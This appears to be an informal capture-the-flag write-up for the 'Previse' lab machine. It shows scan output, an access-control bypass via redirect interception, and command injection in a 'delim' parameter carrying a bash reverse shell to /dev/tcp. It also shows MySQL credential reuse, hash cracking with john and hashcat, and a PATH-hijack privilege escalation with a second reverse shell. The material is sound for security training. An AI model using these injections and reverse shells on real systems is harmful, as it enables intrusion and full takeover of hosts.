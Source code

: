 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Previse
# 29/3/2023
10.10.11.104

----------------------------------------------------
# nmap
----------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

----------------------------------------------------
# gobuster
----------------------------------------------------
/.php                 (Status: 403) [Size: 277]
/download.php         (Status: 302) [Size: 0] [--> login.php]
/index.php            (Status: 302) [Size: 2801] [--> login.php]
/login.php            (Status: 200) [Size: 2224]
/files.php            (Status: 302) [Size: 4914] [--> login.php]
/header.php           (Status: 200) [Size: 980]
/nav.php              (Status: 200) [Size: 1248]
/footer.php           (Status: 200) [Size: 217]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
/status.php           (Status: 302) [Size: 2966] [--> login.php]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/logs.php             (Status: 302) [Size: 0] [--> login.php]

----------------------------------------------------
# initial
----------------------------------------------------
http://10.10.11.104/nav.php
When clicking on create account we are redirected back to the login page. Testing for faulty redirects I
captured the request in BurpSuite and sent the GET request to the repeater tab. After processing a GET
request we see that we have access to the accounts.php if we choose not to follow redirects.

http://10.10.11.104/accounts.php
intercept response of request and change to 200 Ok
we get acc creation page
 create ann ac




 POST /accounts.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: http://10.10.11.104
Connection: close
Referer: http://10.10.11.104/accounts.php
Cookie: PHPSESSID=4ul04h8jjpi356iauktvertqsg
Upgrade-Insecure-Requests: 1

username=testuser&password=password123&confirm=password123&submit=



user created succes


login



intercept http://10.10.11.104/file_logs.php  and sumbit

test this
delim=comma;ping -c 1 10.10.14.6 

delim=comma;bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' 
url endcode and sennd we got a shell


----------------------------------------------------
# lateral movemennt
----------------------------------------------------
cat config.php
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';

 mysql -h localhost -u root -p'mySQL_p@ssw0rd!:)'


 |  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |

 └─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
 └─$ hashcat -m 500 m4lwhere.hash /usr/share/wordlists/rockyou.txt


oxdf@parrot$ sshpass -p 'ilovecody112235!' ssh m4lwhere@10.10.11.104


----------------------------------------------------
# priv esc
----------------------------------------------------
m4lwhere@previse:~$ sudo -l

m4lwhere@previse:/tmp$ 

#!/bin/bash

bash -i >& /dev/tcp/10.10.16.7/8001 0>&1

m4lwhere@previse:/tmp$ chmod +x gzip 
m4lwhere@previse:/tmp$ export PATH=/tmp:$PATH
m4lwhere@previse:/tmp$ sudo /opt/scripts/access_backup.sh

└─$ nc -lvnp 8001

root@previse:/tmp# cat /root/root.txt
GG